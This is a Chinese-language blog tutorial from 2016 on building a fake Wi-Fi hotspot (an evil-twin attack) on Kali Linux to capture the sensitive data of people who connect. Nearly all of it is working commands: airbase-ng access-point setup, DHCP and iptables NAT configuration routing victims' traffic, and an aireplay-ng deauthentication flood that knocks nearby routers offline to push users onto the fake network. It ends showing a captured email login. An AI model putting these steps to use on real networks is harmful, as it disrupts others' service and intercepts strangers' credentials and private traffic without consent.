


创建假的wifi热点
本帖介绍怎么创建假的wifi热点，然后抓取连接到这个wifi用户的敏感数据。我们还会给周围的无线路由器发送未认证的包，使这些路由器瘫痪，强迫用户连接（或自动连接）我们创建的假wifi热点。
这种攻击也叫”水坑攻击”－把其他用户都聚集到一个”坑”中。
系统要求：
- Kali Linux
- 本地有线网络连接（网络接口 eth0）
- 无线网卡支持包注入模式和监控模式 （网络接口 wlan0）
- 各种抓包工具－Wireshark、 ettercap、tcpdump…
获得默认网关
# route -n
这个值在设置iptables时会用到。
安装DHCP服务
用处: 为连接假wifi的用户分配IP。
# apt-get install isc-dhcp-server配置DHCP：
# vim /etc/dhcp/dhcpd.conf文件中内容：
authoritative;
default-lease-time 600;
max-lease-time 7200;
subnet 192.168.10.0 netmask 255.255.255.0 {
option routers 192.168.10.1;
option subnet-mask 255.255.255.0;
option domain-name "freewifi";
option domain-name-servers 8.8.8.8,8.8.4.4,192.168.0.1;
range 192.168.10.100 192.168.10.140;
}
先不启动DHCP服务。
进入无线网卡的监控模式
# airmon-ng start wlan0
# airmon-ng check kill把wlan0替换为你的无线网卡接口。
要退出监控模式，执行：
# airmon-ng stop wlan0mon创建wifi热点
# airbase-ng -c 11 -e fake_wifi wlan0mon
不要终止这个命令。

现在你已经创建了一个wifi热点，但是这个wifi目前还不能连接。
设置网络和防火墙规则
# ifconfig at0 up
# ifconfig at0 192.168.10.1 netmask 255.255.255.0
# ifconfig at0 mtu 1400
# route add -net 192.168.10.0 netmask 255.255.255.0 gw 192.168.10.1
# iptables --flush
# iptables --table nat --flush
# iptables --delete-chain
# iptables --table nat --delete-chain
# echo 1 > /proc/sys/net/ipv4/ip_forward
# iptables -t nat -A PREROUTING -p udp -j DNAT --to 192.168.0.1
# iptables -P FORWARD ACCEPT
# iptables --append FORWARD --in-interface at0 -j ACCEPT
# iptables --table nat --append POSTROUTING --out-interface eth0 -j MASQUERADE
启动DHCP服务
# dhcpd -cf /etc/dhcp/dhcpd.conf -pf /var/run/dhcpd.pid at0
# systemctl start isc-dhcp-server遇到的问题：
PID file: /var/run/dhcpd.pid
Can't open lease database /var/lib/dhcp/dhcpd.leases: No such file or directory --
创建这个文件解决这个问题：
# mkdir /var/lib/dhcp/
# touch /var/lib/dhcp/dhcpd.leases到此，wifi热点创建完成。


瘫痪其他路由
列出周围的wifi：
# airodump-ng wlan0mon然后选择你的目标，记住BSSID和频道。
设置频道：
# iwconfig wlan0mon channel <频道号>开始deauthentication攻击：
# aireplay-ng -0 5000 -a <BSSID> wlan0mon --ignore-negative-oneOK，现在你可以愉快的抓包了。
例如使用Wireshark抓包：

上图抓到了我手机邮件客户端登录的邮箱账户。
Written on May 24, 2016